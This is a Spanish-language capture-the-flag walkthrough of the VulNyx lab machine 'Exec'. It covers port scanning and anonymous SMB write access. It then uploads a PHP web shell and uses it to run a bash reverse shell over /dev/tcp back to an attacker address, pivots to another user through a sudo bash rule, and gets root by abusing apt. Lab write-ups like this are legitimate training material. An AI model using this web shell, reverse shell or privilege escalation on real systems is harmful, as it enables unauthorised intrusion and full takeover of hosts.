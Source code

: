 ```yaml
---
layout: default
title: Exec
parent: VulNyx
---
```


# Exec
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

- SMB Enumeration (RW permission)
- RCE via PHP web shell
- Abusing sudoers binaries (bash, apt)
- User pivoting

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos los puertos 22(SSH), 80(HTTP), y 139/455(netbios-SMB):

```bash
nmap -sS -n -Pn --open -p- 172.16.0.5
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

```bash
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Ahora escanearemos para encontrar mas informacion sobre los puertos y servicios que estan corriendo

```bash
nmap -sCV -p22,80,139,445 172.16.0.5
```

- sCV: Lanza script para enumerar el servicio y obtiene informacion sobre la version del servicio

```bash

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp  open  http        Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: EXEC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-06-24T23:16:21
|_  start_date: N/A
|_clock-skew: -2s
```

> En el puerto 80 no encontraremos mas que el sitio web por defecto de apache

### SMB - 445

Relizamos una enumeracion basica usando ```smbmap``` usando null session para saber cuales son los recursosc compartidos y sus permisos.

```bash
smbmap -H 172.16.0.5 -u "null" -p "null" --no-banner
```

Veremos que tenemos permisos RW sobre el recurso ```server```.

```bash
server 			READ, WRITE				Developer Directory
```

Ahora ingresaremos en el usando smbclient aplicando null session y nos daremos cuenta que existe el archivo ```index.html```:

```bash
smbclient //172.16.0.5/server -N
``` 
```bash
smb: \> ls
  .                                   D        0  Mon Apr 15 02:45:54 2024
  ..                                  D        0  Mon Apr 15 02:04:12 2024
  index.html                          N    10701  Mon Apr 15 02:04:31 2024

		19480400 blocks of size 1024. 16491120 blocks available
```

Si lo visualizamos es el mismo contenido que el del sitio web, por lo cual es muy probable que esten sincronizados, eso lo comprobamos si subimos un archivo usando el comando ```put```

```bash
smb: \> put archivo.txt
putting file archivo.txt as \archivo.txt (3.1 kb/s) (average 3.1 kb/s)
```

Ahora al ingresar al sitio web y apuntar a ese recurso veremos el contenido del archivo:

![](/assets/img/nyx-exec/1.png)

En este punto simplemente podemos subir una web shell usando PHP, en mi caso usare esta:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Ahora solo apunteros al recurso pero indicando una reverse shell en el parametro ```cmd```

```bash
http://172.16.0.5/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<tu-ip>/443%200%3E%261%22
```
```bash
sudo nc -nlvp 443                                                                                                                                 ✘ 1
Connection from 172.16.0.5:55866
bash: cannot set terminal process group (484): Inappropriate ioctl for device
bash: no job control in this shell
www-data@exec:/var/www/html$ 
```

## User-pivoting: www-data -> s3cur4

Si mostramos los permisos a nivel de sudoers veremos que podemos ejecutar bash sin contraseña como el usuario ```s3cur4```:

```bash
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

Ahora ejecutamos bash como el usuario s3cur4 usando el comando:

```bash
sudo -u s3cur4 /usr/bin/bash 
```

## Escalada de privilegios

Al mostrar de nuevo los permisos a nivel de sudoers, veremos que podemos ejecutar ```apt``` como root sin contraseña

```bash
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

Si buscamos en GFTOBins veremos que nos podemos hacer root de esta forma:

```bash
sudo apt changelog apt
!/bin/bash
```

Que en nuestro caso seria asi:

```bash
sudo -u root /usr/bin/apt changelog apt
```

Y despues ejecutar ```!/bin/bash```

Esto nos spawneara una shell y como root

```bash
root@exec:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Eso ha sido todo, gracias por leer
